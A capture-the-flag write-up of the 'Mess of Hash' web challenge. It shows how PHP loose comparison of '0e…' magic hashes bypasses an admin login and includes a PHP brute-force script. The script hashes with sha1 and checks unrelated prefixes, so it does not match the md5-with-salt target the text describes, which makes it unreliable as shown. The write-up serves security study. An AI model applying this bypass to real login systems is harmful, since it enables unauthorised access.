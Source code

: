 # Mess of Hash
(web50, solved by 170)

> Description: Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...
> 
> Attachment: web50.zip
> 
> Service: https://mess-of-hash.ctf.internetwache.org/

# Solution

In the web50.zip we can find this file:

```
<?php 

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}


$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");
```

We need to see that the hash `0e408306536730731920197920342119` has one letter and the rest is numbers.
I found this article https://www.whitehatsec.com/blog/magic-hashes/ 

> Below is a list of hash types that when hashed are ^0+ed*$ which equates to zero in PHP when magic typing using the “==” operator is applied. That means that when a password hash starts with “0e…” as an example it will always appear to match the below strings, regardless of what they actually are if all of the subsequent characters are digits from “0-9”.

Perfect, i just need to find a valid `md5(md5($str) . "SALT")`.

```
<?php 

$charset = 'abcdefghijklmnopqrstuvwxyz';
$charset = '0123456789';
$charset .= 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';
$str_length = strlen($charset);

function check($password){
        $test_hash = sha1($password);
		if (substr($test_hash, 0, 8) === "45334022") {
			if (substr($test_hash, 38, 40) === "00") {
				//if(preg_match('/^[0-9a-z]{15}$/', $test_hash))
		    		echo "hash: " . $test_hash . " password: " . $password ."\n" ;
		    }
		}
}

function recurse($width, $position, $base_string){
        global $charset, $str_length;
        for ($i = 0; $i < $str_length; ++$i) {
                if ($position  < $width - 1) {
                        recurse($width, $position + 1, $base_string . $charset[$i]);
                }
                check($base_string . $charset[$i]);
        }
}

for ($i = 0; $i < 9; ++$i) {
        echo "length " .$i. "\n" ;
        recurse($i, 0, '');
}

```

Then a get this result:

![results](https://i.gyazo.com/7c478d5716d950e894a44c0f816e563e.png)

Flag : **IW{T4K3_C4RE_AND_C0MP4R3}**
